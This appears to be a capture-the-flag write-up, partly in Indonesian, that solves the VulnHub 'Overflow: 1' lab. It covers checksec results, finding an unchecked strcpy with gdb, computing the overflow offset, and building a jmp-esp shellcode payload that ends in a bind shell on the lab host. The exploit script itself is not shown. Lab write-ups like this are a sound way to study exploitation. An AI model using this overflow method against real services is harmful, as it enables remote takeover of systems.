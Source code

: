 lets start with checksec :
```bash
CANARY    : disabled <--- w0p, classical bof
FORTIFY   : disabled
NX        : disabled <--- shellcode injection today :)
PIE       : disabled
RELRO     : Partial
```

interesting string "OVERFLOW " on *0x0804947f*

breakpoint setelah recv => *0x08049470*<br>
jne jika inputan tidak pas => *0x8049490*<br>
|<br>
|> strncmp(args_1, args_2, size_t)<br>
<br>
size_t = 0x9<br>
args_2 = input kita<br>
args_1 = "OVERFLOW "<br>
<br>
jadi args_1 harus disertakan dalam payload.<br>
<br>
<pre>
breakpoint setelah melalui strncmp => 0x0804949b
selanjutnya diteruskan menuju fungsi handleCommand => 0x08049262
|
|> pada 0x08049279, dilakukan evaluasi buffer sebanyak 40 byte
---> lea    edx,[ebp-0x28] # 0x28 = 40
|> lalu pada 0x0804927f diprosess melalui strcpy ... u kn0w what i mean :v
\\> info from pwn tips!
 \\ * `strcpy(buf, buf2)`
    * No boundary check.
    * It copies the content of buf2(until reaching NULL byte) which may be longer than `length(buf)` to buf.
    * Therefore, it may happen overflow.
    * **pwnable**
</pre>
lets test the overflow<br>
payload = "OVERFLOW "+"A"*40<br>
|<br>
|> B0oom, overflow => 0x41414141<br>
<br>
selanjutnya, mencari offset :
<pre>
payload = 'OVERFLOW '+random_pattern
#terminal 1 : (nc localhost 1337)
COMMAND : OVERFLOW AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa
#terminal 2 : (gdb)
Invalid $PC address: 0x41414541
gdb-peda$ patto 0x41414541
1094796609 found at offset: 35 <--- f00l
</pre>

saat di lihat kembali, terdapat 2 fungsi tambahan :<br>
1.) handleCommand <--- bof<br>
2.) jmpesp <--- what is this ?<br>
<br>
saat di-disassembly ternyata ia menambah sekitar 11627 byte ke register eax<br>
```bash
gdb-peda$ pdisass jmpesp
Dump of assembler code for function jmpesp:
   0x0804928d <+0>:	push   ebp
   0x0804928e <+1>:	mov    ebp,esp
   0x08049290 <+3>:	call   0x80494dc <__x86.get_pc_thunk.ax>
   0x08049295 <+8>:	add    eax,0x2d6b   <--- yummy
   0x0804929a <+13>:	jmp    esp
   0x0804929c <+15>:	nop
   0x0804929d <+16>:	pop    ebp
   0x0804929e <+17>:	ret    
End of assembler dump.
```
<br>
Jadi untuk exploit pola ialah :<br>
>"OVERFLOW " + offset + jmpesp_address + nop*10 + shellcode<br>

**Finger Cross!**

```bash
~/alam-gaib/santet/ctf-writeups/VulnHub/Overflow: 1(master*) » python exploit.py                                                        muwa00@parrot
[+] Opening connection to 10.42.0.2 on port 1337: Done
[*] Crafting payload ...
[*] Send to 10.42.0.2:1337
[*] Closed connection to 10.42.0.2 port 1337
[*] Checking bind shell
[+] Opening connection to 10.42.0.2 on port 11111: Done
[*] Found, access the shell
[*] Switching to interactive mode
$ whoami
user
$
```

** b00m **  
